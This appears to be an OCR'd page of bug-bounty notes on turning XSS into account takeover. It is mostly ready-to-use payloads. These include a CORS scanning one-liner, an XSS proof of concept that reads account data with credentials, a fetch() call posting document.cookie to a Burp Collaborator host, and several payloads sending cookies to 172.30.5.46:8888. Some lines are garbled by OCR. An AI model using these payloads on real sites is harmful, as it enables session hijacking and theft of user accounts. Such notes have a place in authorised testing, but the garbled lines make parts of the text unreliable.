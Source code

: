     - Self XSS + CORS = ATO
        
        ```bash
        <https://notifybugme.medium.com/chaining-cors-by-reflected-xss-to-account-takeover-my-first-blog-5b4f12b43c70>
        1. Got self XSS ?
        2. cat corstexturl.txt | CorsMe or cat corstexturl.txt | soru -u | anew |while read host do ; do curl -s — path-as-is — insecure -H “Origin: test.com” “$host” | grep -qs “Access-control-allow-origin: test.com” && echo “$host \\033[0;31m” cors Vulnerable;done
        3. So to exploit this CORS Misconfiguration we just need to replace the XSS payload alert(document.domain), with the following code:
        
        function cors() {  
        var xhttp = new XMLHttpRequest();  
        xhttp.onreadystatechange = function() {    
            if (this.status == 200) {    
            alert(this.responseText);     
            document.getElementById("demo").innerHTML = this.responseText;    
            }  
        };  
        xhttp.open("GET", "<https://www.attacker.com/api/account>", true);  
        xhttp.withCredentials = true;  
        xhttp.send();
        }
        cors();
        4. So here is the final POC
        <https://test.attacker.com/patter.jsp?facct=>"><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","<https://www.attacker.com/api/account>",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
        ```
        
    - Self XSS to ATO
        
        ```python
        ## convert self xss to reflected one
        copy response in a file.html -> it will work
        ```
        
    - XSS to ATO
        
        ```jsx
        <script>
        fetch('<https://BURP-COLLABORATOR-SUBDOMAIN>', {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
        });
        </script>
        ```
        
        ```jsx
        ## Cookie stealing through xss
        <https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py>
        <https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md>
        <script>var i=newImage;i.src="http://172.30.5.46:8888/?"+document.cookie;</script>
        <img src=x onerror=this.src='<http://172.30.5.46:8888/?'+document.cookie;>>
        <img src=x onerror="this.src='<http://172.30.5.46:8888/?'+document.cookie>; this.removeAttribute('onerror');">
        ```
        